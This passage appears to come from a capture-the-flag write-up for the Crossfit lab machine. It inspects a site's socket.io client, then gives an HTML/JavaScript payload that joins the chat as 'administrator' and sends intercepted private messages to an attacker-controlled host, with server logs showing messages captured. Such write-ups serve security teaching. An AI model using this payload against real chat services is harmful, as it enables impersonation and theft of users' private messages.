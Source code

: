 ```bash
    }),
    xe.on("private_recv", (e) => {
        this.addMessage(e);
    });
```

Here we can see a `xe` object has emit() and connect() function calls. We will check if [socket.io](http://socket.io) is working because this is programmed in VueJS.

```bash
❯ curl -I -s http://crossfit-club.htb/socket.io/socket.io.js                                                                                                 
HTTP/1.1 200 OK
Cache-Control: public, max-age=0
Connection: keep-alive
Connection: close
Connection: close
Content-Type: application/javascript
Date: Tue, 08 Jul 2025 17:33:19 GMT
ETag: "2.3.0"
Keep-Alive: timeout=5
```

So, the answer is yes. After a bit of looking around, we can create a file /password-reset.php because the server is looking for it locally. Adding this to the DNS query we can create a payload for CSRF, that joins a chat and intercepts the messages sent my other users.

```bash
<html>
    <script src="http://crossfit-club.htb/socket.io/socket.io.js"></script>
    <script>
         var socket = io.connect("http://crossfit-club.htb");
         socket.emit("user_join", { username : "administrator" });
         socket.on("private_recv", (data) => {
            var xhr = new XMLHttpRequest();
            xhr.open("GET", "http://not-employees.crossfit.htb/?x=" + JSON.stringify(data));
            xhr.send();
        });
    </script>
</html>
```

This is a php file so this time we will open a php server not a python one.

```bash
sudo php -S 0.0.0.0:80
```

And, finally, we get some messages sent through the chat

{% raw %}
```bash
❯ sudo php -S 0.0.0.0:80
[Tue Jul  8 19:39:32 2025] PHP 8.4.8 Development Server (http://0.0.0.0:80) started
[Tue Jul  8 19:39:44 2025] 10.10.10.232:19639 Accepted
[Tue Jul  8 19:39:44 2025] 10.10.10.232:19639 [404]: GET /?x={%22sender_id%22:15,%22content%22:%22I%20feel%20like%20we%27re%20in%20a%20video%20game.%22,%22roomId%22:15,%22_id%22:242} - No such file or directory
[Tue Jul  8 19:39:44 2025] 10.10.10.232:19639 Closing
[Tue Jul  8 19:39:44 2025] 10.10.10.232:35045 Accepted
[Tue Jul  8 19:39:44 2025] 10.10.10.232:35045 [404]: GET /?x={%22sender_id%22:15,%22content%22:%22I%20feel%20like%20we%27re%20in%20a%20video%20game.%22,%22roomId%22:15,%22_id%22:242} - No such file or directory
[Tue Jul  8 19:39:44 2025] 10.10.10.232:35045 Closing
[Tue Jul  8 19:39:53 2025] 10.10.10.232:13900 Accepted
[Tue Jul  8 19:39:53 2025] 10.10.10.232:22012 Accepted
```